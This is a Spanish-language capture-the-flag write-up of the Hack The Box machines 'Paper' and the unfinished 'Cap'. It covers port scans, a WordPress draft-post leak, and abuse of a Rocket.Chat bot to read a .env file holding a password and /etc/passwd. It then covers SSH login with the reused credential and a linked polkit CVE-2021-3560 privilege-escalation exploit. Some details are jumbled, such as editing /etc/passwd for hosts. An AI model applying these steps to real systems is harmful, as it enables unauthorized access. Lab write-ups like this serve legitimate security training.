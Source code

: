 # Paper

• Information Leakage
• Abussing WordPress - Unauthenticated View Private/Draft Posts
• Abusing Rocket Chat Bot
• Polkit (CVE-2021-3560) [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```


# Cap 

• Insecure Directory Object Reference (IDOR)
• Information Leakage
• Abusing Capabilities (Python3.8) [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Revisamos la pag web

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.11.143
http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
```

Encontramos en la cabecera X-backend[office.paper] por lo tanto editamos el fichero /etc/passwd para poder mostrar el contenido.

nos encontramos que nos lleva a un blog desarrollado en `Wordpress` con unos comentarios que son relevantes junto con un usuario `Prisonmike`el comentario es el siguiente 

```text
Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
-Nick
```

Podemos acceder a post que no se encuentra en la página pero estan expuestos para ello me sirvo de la siguiente vulnerabilidad: 

```
http://wordpress.local/?static=1&order=asc
```
vemos que usando esta URL se puede acceder a una URL con filtración de otros post.

por lo tanto si lo adaptamos a nuestro caso obtengo un post donde comentan que hay un enlace de registro.
```text
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```
Podemos apreciar que hay un subdominio que se agrega al fichero hosts y vemos que es un panel de login.

En ella te puedes registrar y entrar a un chat donde se encunetra un `bot` que te proporciona datos interesantes entre ellos ofrece un usuario y una contrase de un fichero `.env`

```shell
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Tambien nos deja ver el contenido del fichero `/etc/passwd` en el que se destaca la existencia de dos usuarios relevantes
```
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh dwight@10.10.11.143
```
Vemos que podemos acceder con éxito, donde podemos ver la primera la flag `user.txt`

## Escalada de privilegios

Para la escalada he intnetado los comandos básicos sin embargo no he conseguido encontrar nada de manera manual por lo tanto voy a utilizar la herramienta `linpeas.sh`
```
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

para pasarlo he creado un server con python 

```
python3 -m http.server 8000
```
y posteriormente me he conectado a ese recurso.


Después de hacerme el escaneo  vemos que `sudo` es vulnerable, y lo podemos explotar con el `CVE-2021-3560`que utiliza el comando sudo para crear un ususario y contraseña temporal con todos los permisos por lo tanto de esta manera podemos averiguar la flag de root.txt

el enlace del exploit es el siguiente:

```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh
```